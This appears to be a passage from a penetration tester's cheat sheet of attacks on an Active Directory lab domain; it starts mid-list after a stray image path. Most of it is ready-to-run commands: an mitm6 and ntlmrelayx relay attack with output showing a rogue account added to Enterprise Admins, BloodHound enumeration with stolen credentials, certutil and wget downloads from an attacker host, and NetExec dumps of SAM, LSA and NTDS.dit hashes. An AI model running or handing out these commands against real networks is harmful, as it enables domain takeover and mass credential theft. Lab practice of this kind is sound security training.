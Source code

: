 1. Start ntlmrelayx: `ntlmrelayx.py -6 -t ldaps://10.0.2.7 -wh wpad.lifeline.local -l lootme`
2. Start mitm6: `sudo mitm6 -d lifeline.local`

When you see ACE and ACL mentioned, you've likely compromised the DC and a custom user would then be built by MITM6.

Look for lines like `Adding new user with username`: 
```
TypeName: {'ACCESS_ALLOWED_ACE'}

        IdentifierAuthority:{
            Value: {'\x00\x00\x00\x00\x00\x05'}
        }
        SubLen: {20}
        SubAuthority: {'\x15\x00\x00\x00=\xc8\xc0M\xd0w7tS\xd3\x92\xe2\x07\x02\x00\x00'}
    }
}
TypeName: {'ACCESS_ALLOWED_ACE'}
[*] User privileges found: Create user
[*] User privileges found: Create user
[*] User privileges found: Adding user to a privileged group (Enterprise Admins)
[*] User privileges found: Modifying domain ACL
[*] Adding new user with username: qmsgntJvqi and password: V&Vr|.3[U67`C~Y result: OK
```
# AD Internal Enumeration with Compromised Credentials
## Bloodhound & Neo4j
> **REQUIRES**: compromised domain user (Active Directory username & password)

Steps: 
1. Update Bloodhound via APT or Pip, whichever it was installed with
2. Run Neo4j: `sudo neo4j console`
	1. Ensure you're logged in
3. Run Bloodhound: `sudo bloodhound`
4. Use bloodhound-python to enumerate the active directory environment via compromised credentials: `sudo bloodhound-python -d LIFELINE.local -u mmeow -p Password1 -ns 10.0.2.7 -c all` *(nameserver must be domain)*
5. Upload all JSON files created to Bloodhound's web interface. You're now ready to visualize the environment for enumeration
# AD Post-Compromise Attacks
## File Transfers
#### Host
- HTTP: `python3 -m http.server 8080`
- FTP: `python3 -m pyftpdlib -p 21`
#### Grab
- Certutil: `certutil.exe --urlcache -f http://10.0.2.15/file.txt file.txt`
- Wget: `wget 10.0.2.15/file.txt`
## Dump Hashes
> Requires compromised user account's password
### NetExec
1. Dump SAM: `nxc smb 192.168.1.0/24 -u UserName -p 'PASSWORDHERE' --sam`
2. Dump LSA: `nxc smb 10.0.2.9 -u luvrgirl -p Password --lsa`
3. Dump NTDS.dit
> Requires Domain Admin or Local Admin Privileges on target Domain Controller
```
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users --enabled
```